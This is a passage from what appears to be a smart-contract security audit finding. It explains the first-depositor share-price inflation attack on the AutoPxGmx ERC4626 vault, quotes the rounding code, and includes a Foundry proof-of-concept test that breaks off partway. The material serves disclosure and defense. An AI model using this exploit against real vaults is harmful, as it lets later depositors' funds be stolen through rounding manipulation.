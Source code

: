 1.  Alice is the first depositor of the `AutoPxGmx` vault;
2.  Alice deposits 1 wei of pxGMX tokens;
3.  in the `deposit` function ([PirexERC4626.sol#L60](https://github.com/code-423n4/2022-11-redactedcartel/blob/03b71a8d395c02324cb9fdaf92401357da5b19d1/src/vaults/PirexERC4626.sol#L60)), the amount of shares is calculated using the `previewDeposit` function:

    ```solidity
    function previewDeposit(uint256 assets)
        public
        view
        virtual
        returns (uint256)
    {
        return convertToShares(assets);
    }

    function convertToShares(uint256 assets)
        public
        view
        virtual
        returns (uint256)
    {
        uint256 supply = totalSupply; // Saves an extra SLOAD if totalSupply is non-zero.

        return supply == 0 ? assets : assets.mulDivDown(supply, totalAssets());
    }
    ```

4.  Since Alice is the first depositor (totalSupply is 0), she gets 1 share (1 wei);
5.  Alice then *sends* 9999999999999999999 pxGMX tokens (10e18 - 1) to the vault;
6.  The price of 1 share is 10 pxGMX tokens now: Alice is the only depositor in the vault, she's holding 1 wei of shares, and the balance of the pool is 10 pxGMX tokens;
7.  Bob deposits 19 pxGMX tokens and gets only 1 share due to the rounding in the `convertToShares` function: `19e18 * 1 / 10e18 == 1`;
8.  Alice redeems her share and gets a half of the deposited assets, 14.5 pxGMX tokens (less the withdrawal fee);
9.  Bob redeems his share and gets only 14.5 pxGMX (less the withdrawal fee), instead of the 19 pxGMX he deposited.

```solidity
// test/AutoPxGmx.t.sol
function testSharePriceManipulation_AUDIT() external {
    address alice = address(0x31337);
    address bob = address(0x12345);
    vm.label(alice, "Alice");
    vm.label(bob, "Bob");

    // Resetting the withdrawal fee for cleaner amounts.
    autoPxGmx.setWithdrawalPenalty(0);

    vm.startPrank(address(pirexGmx));        
    pxGmx.mint(alice, 10e18);
    pxGmx.mint(bob, 19e18);
    vm.stopPrank();

    vm.startPrank(alice);
    pxGmx.approve(address(autoPxGmx), 1);
    // Alice deposits 1 wei of pxGMX and gets 1 wei of shares.
    autoPxGmx.deposit(1, alice);
    // Alice sends 10e18-1 of pxGMX and sets the price of 1 wei of shares to 10e18 pxGMX.
    pxGmx.transfer(address(autoPxGmx), 10e18-1);
    vm.stopPrank();

    vm.startPrank(bob);
    pxGmx.approve(address(autoPxGmx), 19e18);
```